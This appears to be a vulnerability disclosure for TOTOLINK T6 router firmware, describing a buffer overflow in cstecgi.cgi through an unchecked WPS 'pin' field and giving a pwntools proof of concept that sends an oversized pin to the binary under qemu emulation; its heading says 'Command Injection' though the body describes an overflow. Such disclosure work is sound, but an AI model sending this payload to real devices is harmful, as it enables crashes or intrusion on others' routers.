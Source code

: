 # Command Injection

## TOTOLINK_T6

version: V4.1.5cu.709_B20210518

## Description:

There is a buf overflow  in cstecgi.cgi

## Source:

you may download it from : http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Analyse:



in sub_421AA0, v7 get from pin,and then pass to v16 , but dont check the length.

![](3.png)


finally ,cause overflow.


## POC

```
from pwn import *
import json

data = {
    "topicurl": "setting/setWiFiWpsStart",
    "wscMode": "1",
    "pin": b'a'*0x200 
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-g", "1234",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.0.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```
